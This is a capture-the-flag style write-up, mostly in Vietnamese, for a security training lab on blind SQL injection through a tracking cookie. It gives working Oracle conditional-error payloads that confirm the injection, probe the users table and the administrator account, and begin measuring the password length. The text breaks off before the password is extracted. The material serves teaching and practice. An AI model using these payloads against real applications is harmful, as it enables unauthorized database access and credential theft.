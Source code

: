 # Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:
 
`SQL injection with conditional errors` là kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi `True` hay `False`

Query được sử dụng trong lab

```
SELECT trackingID FROM someTable WHERE trackingID = '<COOKIE-VALUE'>
```

Mình sẽ bỏ qua hoàn toàn content của cookie từ bây giờ và chỉ cung cấp chuỗi được thêm vào giá trị TrackingId.

Bài này mình làm 2 cách `sqlmap` và `Portswigger`

# Solution:

# PortSwigger:

Kiểm tra `TrackingID` cookie bằng cookie editor. Thêm kí tự `'` thì gây ra lỗi

![image](https://user-images.githubusercontent.com/115911041/234747603-d319fdfc-f2f3-4847-b3fb-01ee3c4b0d6f.png)

Bởi vì loại lỗ hổng này, chúng ta không thể thấy bấy kì kết quả nào của query cũng như sự khác biệt ở output. Tuy nhiên, nếu ta có thể tạo ra các requests gây ra lỗi database, ta có thể suy ra giả trị thật dựa trên việc lỗi có hiển thị ra hay không.

Vậy bước đầu ta cần xác định tham số nào là lỗ hổng bằng cách tạo ra các request mà đưa ra câu trả lời `normal` hoặc `error`.

Inject 1 kí tự `'` tạo ra `server error`, inject 2 kí tự `'` thì không xảy ra. Điều này cho thấy khả năng SQLi, vì thề mình thử vài payload:

`'||(SELECT+null||'` cũng cho ra lỗi, tuy nhiến nếu là  `'||(SELECT+null+FROM_dual)||'` thì không. Vì thế database đang sử dụng là Oracle DB.

***Toán tử `||` cho phép nối chuỗi dữ liệu và kết quả truy vấn. `()` được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.***

## TÌm lệnh 'normal' và 'error'

Dựa vào `cheat sheet` mà Lab cung cấp, một ví dụ về conditional error 

`SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FORM DUAL`

Với `normal` query, chúng ta lấy `input` là `FLASE`, dó đó nó không xảy ra lỗi `divison by zero`

```
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Content của cookie cho `normal` case được cho ra một trang web `normal`:

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Trường hợp `error` có condition được cho là true, do đó khiến cho databse thực hiện `division by zero` dẫn đến `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Giờ chúng ta đã có cách phân biệt kết quả của boolean condition.

## Xác định database table và columns

Bước tiếp theo là xác định table `users` có thật sự tồn tại ở trong database. Với cái này, mình sử dụng database version oracle giới hạn lượng row output:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

Nó cho thấy trang web, xác định đó là query hợp lệ và cũng như table name và cả column names đều hợp lệ.

## Xác định user tồn tại trong database

Để gây ra lỗi, chúng ta mở rộng ví dụ bằng cách thực hiện `division by zero` nếu tên người dùng không tồn tại. Câu lệnh này gây ra `internal server error`, chĩ ra rằng query này dẫn đến `division by zero`

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Thay đổi username thành một giá trị tùy ý, page được hiển thị. Điều này xác định rằng điều kiện `1=1` và `division by zero` phụ thuộc vào việc `FROM users WHERE...`  một phần trả về thứ gì đó.

Điều này xác định `administrator` tồn tại trong database.

## Xác định chiều dài của password

Xác định chiều dài rất dễ dàng bằng cách sử dụng hàm `LENGTH` ở cuối câu điều kiện SQL.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'`

Sẽ hiển thị ra page, chỉ ra rằng kcheck `1=1`  chưa bào giờ được thực hiện. Sử dụng Burp Intruder, mình kiểm tra các số từ 1 đến 50 dưới dạng độ dài





